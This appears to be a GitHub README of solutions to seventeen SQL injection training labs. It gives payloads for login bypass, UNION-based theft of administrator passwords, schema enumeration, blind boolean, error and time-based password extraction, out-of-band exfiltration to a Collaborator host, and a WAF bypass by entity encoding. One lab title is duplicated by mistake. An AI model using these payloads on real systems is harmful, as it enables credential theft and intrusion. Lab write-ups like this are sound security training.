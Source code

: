 <div align='center'>

# **SQL Injection**

</div>

## **Retrieving hidden data**

### **Lab 1:** SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Solution:** Set the category parameter to ` ` or 1=1 -- `. Solution script: [Lab1.py](./lab1.py)

## **Subverting application logic**

### **Lab 2:** SQL injection vulnerability allowing login bypass

**Solution:** In the login page, give `username = administrator' --`. Solution script: [Lab2.py](./lab2.py)

## **SQL injection UNION attacks**

### **Lab 3:** SQL injection UNION attack, determining the number of columns returned by the query

**Solution:** Set the category parameter to ` ' UNION Select null,null,null -- `. Solution script: [UNIONLab1.py](./UNIONLab1.py)

### **Lab 4:** SQL injection UNION attack, finding a column containing text

**Solution:** Set the category parameter to ` ' UNION Select null,null,'target string' -- `. Solution script: [UNIONLab2.py](./UNIONLab2.py). In the script, I have tried all possible combination of (null, null, target string) until the lab is solved.

### **Lab 5:** SQL injection UNION attack, retrieving data from other tables

**Solution:** Set the category parameter to ` ' UNION Select username,password from users where username = 'administrator' -- `. You will get the password of user 'administrator'. Finally, login as administrator to solve the lab. Solution script: [UNIONLab3.py](./UNIONLab3.py)

### **Lab 6:** SQL injection UNION attack, retrieving multiple values in a single column

**Solution:** Set the category parameter to ` ' UNION Select null, username || '~' || password from users where username = 'administrator' -- `. You will get the password of user 'administrator'. Finally, login as administrator to solve the lab. Solution script: [UNIONLab4.py](./UNIONLab4.py)

## **Examining the database**

### **Lab 7:** SQL injection attack, querying the database type and version on Oracle

**Solution:** Set the category parameter to ` ' UNION Select null,banner v$version where banner like 'Oracle%' -- `.
Solution script: [ExaminingLab1.py](./ExaminingLab1.py)

### **Lab 8:** SQL injection attack, querying the database type and version on MySQL and Microsoft

**Solution:** Set the category parameter to ` ' UNION Select @@version,null # `.
Solution script: [ExaminingLab2.py](./ExaminingLab2.py)

### **Lab 9:** SQL injection attack, listing the database contents on non-Oracle databases

**Solution:** Firstly, set the category parameter to ` ' UNION Select table_name,null from information_schema.tables where table_name like 'users_%'-- - ` to get the table name. Then, set the category parameter to ` ' UNION Select column_name,null from information_schema.columns where table_name = '(your table_name)' -- - ` to get all columns from that table. When you have the table with all columns, set the category parameter to ` ' UNION Select (your username columns),(your password column) from (your table_name) where (your username columns) = 'administrator' -- - ` to get the credential of the administrator.
Solution script: [ExaminingLab3.py](./ExaminingLab3.py)

### **Lab 10:** SQL injection attack, listing the database contents on Oracle

**Solution:** Firstly, set the category parameter to ` ' UNION Select table_name,null from all_tables where table_name like 'USERS_%'-- - ` to get the table name. Then, set the category parameter to ` ' UNION Select column_name,null from all_tab_columns where table_name = '(your table_name)' -- - ` to get all columns from that table. When you have the table with all columns, set the category parameter to ` ' UNION Select (your username columns),(your password column) from (your table_name) where (your username columns) = 'administrator' -- - ` to get the credential of the administrator.
Solution script: [ExaminingLab4.py](./ExaminingLab4.py)

## **Blind SQL Injection**

### **Lab 11:** Blind SQL injection with conditional responses

**Solution:** Modify the TrackingId cookie. Using brute force to get the length of the password by changing TrackingId to: 
```python
"Trackingid' AND (SELECT LENGTH(password) FROM users where username = 'administrator')='{}' -- -".format(password_len)
```
When password_len = 20, the message 'Welcome back' appear in the respond, so the length of the password is 20. Then, retrieve the password by changing TrackingId to:
```python
"Trackingid' AND (SELECT SUBSTR(password, {}, 1) FROM users where username = 'administrator')='{}' -- -".format(len(password) + 1, char)
```
char is chosen from the charset which contain lowercase letter and number. Solution script: [BlindLab1.py](./BlindLab1.py)

### **Lab 12:** Blind SQL injection with conditional errors

**Solution:** Similar to Lab 11, however, we rely on whether the query trigger an error or not. The query we use is:
```python
"Trackingid'||(SELECT case when (LENGTH(password)={}) then (1/0) else null end from users where username='administrator')||'".format(password_len)
```
```python
"Trackingid' ||(SELECT case when (SUBSTR(password,{},1)='{}') then (1/0) else null end from users where username='administrator')||'".format(len(password) + 1, char)
```
Solution script: [BlindLab2.py](./BlindLab2.py)

### **Lab 13:** Blind SQL injection with conditional errors

**Solution:** Change the trackingId of the cookies to `Trackingid || pg_sleep(10) -- -`. Solution script: [BlindLab3.py](./BlindLab3.py)

### **Lab 14:** Blind SQL injection with time delays and information retrieval

**Solution:** Similar to Lab 12, however, we rely on the time server take to respond . The query we use is:
```python
"Trackingid'||(SELECT case when (LENGTH(password)={}) then (pg_sleep(10)) else (pg_sleep(0)) end from users where username='administrator')||'".format(password_len)
```
```python
"Trackingid' ||(SELECT case when (SUBSTR(password,{},1)='{}') then (pg_sleep(10)) else (pg_sleep(0)) end from users where username='administrator')||'".format(len(password) + 1, char)
```
Solution script: [BlindLab4.py](./BlindLab4.py)

### **Lab 15:** Blind SQL injection with out-of-band interaction

**Solution:** Change the trackingId of the cookies to:
```python
'''Trackingid' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "{}"> %remote;]>'),'/l') FROM dual-- -'''.format(burp_client)
```
Then URLEncoded them.
Solution script: [BlindLab5.py](./BlindLab5.py)

### **Lab 16:** Blind SQL injection with out-of-band data exfiltration

**Solution:** Change the trackingId of the cookies to:
```python
'''Trackingid' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "'||(Select password from users where username = 'administrator')||'.{}"> %remote;]>'),'/l') FROM dual-- -'''.format(burp_client)
```
URLEncode them, then go to the Collaborator tab and get the password 
Solution script: [BlindLab6.py](./BlindLab6.py)

## **SQL injection in different contexts**

### **Lab 17:** SQL injection with filter bypass via XML encoding

**Solution:** In the post request to endpoint /product/stock, use this xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>2 union select username || '~' || password from users where username = 'administrator'</storeId>
</stockCheck>
```
Then use html_encode to bypass the WAF
```python
def html_encode(string):
    return ''.join(['&#{0};'.format(ord(char)) for char in string])
```
You will get the password of the administrator user.
